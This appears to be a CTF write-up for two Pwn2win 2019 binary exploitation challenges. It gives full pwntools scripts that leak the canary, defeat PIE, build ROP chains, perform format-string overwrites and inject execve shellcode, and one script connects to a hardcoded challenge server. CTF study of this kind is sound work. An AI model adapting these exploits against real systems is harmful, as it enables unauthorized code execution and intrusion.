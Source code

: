 # Pwn2win 2019 CTF
## Exploitation
### FULL tROLL (223 points, dynamic)
First, you can open /proc/self/maps to defeat PIE.

There is a buffer overflow vulnerbility when the program asks for you to enter a password.

Because it will print `"Unable to open %s file"` when the file name is invalid, so you can abuse this to leak the stack canary.

After leaking the canary, you can preform a ROP attack to leak libc address using gadgets combined with `puts.plt`, then return back to main again.

**Get shell attempts**
1. (Failed) I tried to use pwntools's DynELF to retrive the libc base, but it requires a lot of ROP attempts to leak the address, but since the program uses `getenv()`, it would cause a segfault because the ROP stack frame overlaps with the environment pointers on the stack.

2. (Success) Use libc-database to find the apporiate offsets, and use onegadget with ROP to get shell.

```python
from pwn import *                                                                                                                                                                                    [11/6066]
#context.log_level = 'DEBUG'             
context.terminal = ['tmux', 'splitw', '-h']
password = 'VibEv7xCXyK8AjPPRjwtp9X'       
#p = process('./full_troll', env={'LD_PRELOAD':'./libc-2.27.so'})
p = remote('200.136.252.31', 2222)
libc = ELF('./libc-2.27.so')                                                                           
elf = ELF('./full_troll')
def debug(bps=[]): 
    cmd = ''   
    cmd+=''.join(['b *$rebase({:#x})\n'.format(b) for b in bps])
    cmd += 'c'
    gdb.attach(p, cmd)           
    pause()


'''
Leak canary
'''
p.recvline()
payload = password + 'A'*(0x20-23) + '\xee'*0x28 + '\xee'
p.sendline(payload)
leak = p.recvline()
canary = '\x00' + leak[leak.find('open ')+5+0x29:leak.find('open ')+5+0x29+7]
print len(canary)

'''
Leak elf base
'''
p.recvline()
payload = password + 'A'*(0x20-23) + '/proc/self/maps\x00'
p.sendline(payload)
leak = p.recvline()
elf_base = int(leak[:leak.find('-')],16)
log.info('elf base ' + hex(elf_base))

main_addr = 0xead + elf_base
puts_addr = elf.plt['puts'] + elf_base
poprdi= 0x10a3 + elf_base 
ret = 0x80e + elf_base
addrsp = 0xde6 + elf_base

payload = password + '\x00'*(0x20-23) + '\x00'*0x28 + canary + 'A'*0x8 + p64(poprdi)+p64(elf_base+elf.got['malloc']) + p64(puts_addr) + p64(main_addr)
p.sendline(payload)
p.recvuntil('error')
libc_base = u64(p.recv(6).ljust(8,'\x00'))-libc.symbols['malloc']
log.info('libc addr : ' + hex(libc_base))
shell = 0x001b3e9a + libc_base
system = libc_base + libc.symbols['system']
log.info(hex(system))

payload = password + '\x00'*(0x20-23) + '\x00'*0x28 + canary + 'A'*0x8 + p64(libc_base+0x4f2c5)
bps = [0x103C]
p.sendline(payload)
p.interactive()
```


### Random vault (303 points, dynamic)
There is a format string vulnerability when the program prints your name, but we can only preform two different attacks with it since you can only change the name once.

There is a range of memory that has RWX permission via `mprotect`, a function pointer, and a seed for `rand()` which returns indexes for the stored secrets.

**PLAN**
1. Use the first format string vul to leak program base and defeat PIE
2. Use the second format string vul to partial overwrite the last two bytes of the function pointer to point to the exectuable memory, and overwrite the seed to a value we know
3. Write the shellcode by storing secrets, and get shell.

Because the indexes are sparse even if we know the values initally, so I wrote a simple script to find a seed value that will give me four consecutive indexes, that is, 36 bytes of shellcode space
```python
from ctypes import cdll
libc = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
for i in range(0,100000):
    libc.srand(i)
    l = list()
    for _ in range(7):
        r = libc.rand()
        index = (((r >> 56)+r) & 0xff) + (((r>>31)&0xffffffff)>>24)
        l.append(index)
    s = set(l)
    if len(s) < 7:
        # has duplicates
        continue
    sortedl = sorted(l)
    for j in range(0, 3):
        sublist = sortedl[j:j+4]
        compared = [k for k in range(sublist[0], sublist[0]+4)]
        if sublist == compared:
            print l
            print 'seed ' + str(i)
            exit()
```

The 7 indexes are `[12, 215, 164, 11, 64, 9, 10]` and the seed value is 56536.
Because my shellcode is 27 bytes, pad it to 32 bytes using `nop`.

The final exp script:
```python
from pwn import *                                                                                                                                                                                    [55/6203]
#context.log_level = 'DEBUG'
context.terminal = ['tmux', 'splitw', '-h']        
p = process('./random_vault')              
                                                                                                       
def find_addr():
    for i in range(1,40):    
        p = process('./random_vault')
        p.recvuntil('Username: ')                                                                      
        payload = 'B'*8+'%{}$016llx'.format(str(i)) 
        p.sendline(payload)
        p.recvuntil('Hello, ')            
        leak = p.recvline()
        if leak[12] =='5':
            log.critical(payload)
            log.critical(leak)
            pause() 
        #log.info(leak)
        p.close()

def debug(bps=[]):
   cmd = ''
   cmd+=''.join(['b *$rebase({:#x})\n'.format(b) for b in bps])
   cmd += 'c'
   gdb.attach(p, cmd)
   pause()


elf_offset = 0x1110
payload = 'BBBBBBBB%8$016llx'
p.recvuntil('Username: ')
p.sendline(payload)
p.recvuntil('Hello, ')
elf_base = int(p.recvline()[8:8+16],16) - elf_offset
log.info('ELF base : ' + hex(elf_base))

target = elf_base + 0x5000
seed = elf_base + 0x5008
seed_value = 56536 #[12, 215, 164, 11, 64, 9, 10]
vault = elf_base + 0x5010
target_value = (vault + 8*9) & 0xffff
print hex(target)

print 'target value, seed_value : ' + str(target_value) + ' ' + str(seed_value)
if target_value > seed_value:
    log.critical('target value greater than seed value, try again')
    exit()
                                                                                                                                                                                                                  
'''
Build format string payload
'''
payload = '%{}c%^^$hn'.format(target_value)                                                                                                                                                                   
payload += '%{}c%**$lln'.format(seed_value-target_value)                                                                                                                                                      
                                                                                                                                                                                                              
leftover = len(payload) % 0x8                                                                                                                                                                                 
if leftover != 0:
    payload = payload.ljust(8*(len(payload)/8+1), 'A')

k = len(payload)/8
payload = payload.replace('^^', str(24+k))
payload = payload.replace('**', str(25+k))
payload += p64(target)
payload += p64(seed)
log.info(payload)
print len(payload)
p.recv()
p.sendline(str(1))
p.recvuntil('Username: ')
p.sendline(payload)

shellcode = '\x31\xC0\x90\x90\x90\x90\x90\x48\xBB\xD1\x9D\x96\x91\xD0\x8C\x97\xFF\x48\xF7\xDB\x53\x54\x5F\x99\x52\x57\x54\x5E\xB0\x3B\x0F\x05'
print len(shellcode)
s1, s2, s3, s4 = [u64(shellcode[i:i+8]) for i in range(0, len(shellcode), 8)]

p.recv()
p.sendline(str(2)) #store secret
p.recvuntil('#1: ')
p.sendline(str(s4))

p.recvuntil('#2: ')
p.sendline(str(2))

p.recvuntil('#3: ')
p.sendline(str(2))

p.recvuntil('#4: ')
p.sendline(str(s3))

p.recvuntil('#5: ')
p.sendline(str(2))

p.recvuntil('#6: ')
p.sendline(str(s1))

p.recvuntil('#7: ')
p.sendline(str(s2))
p.interactive()
```

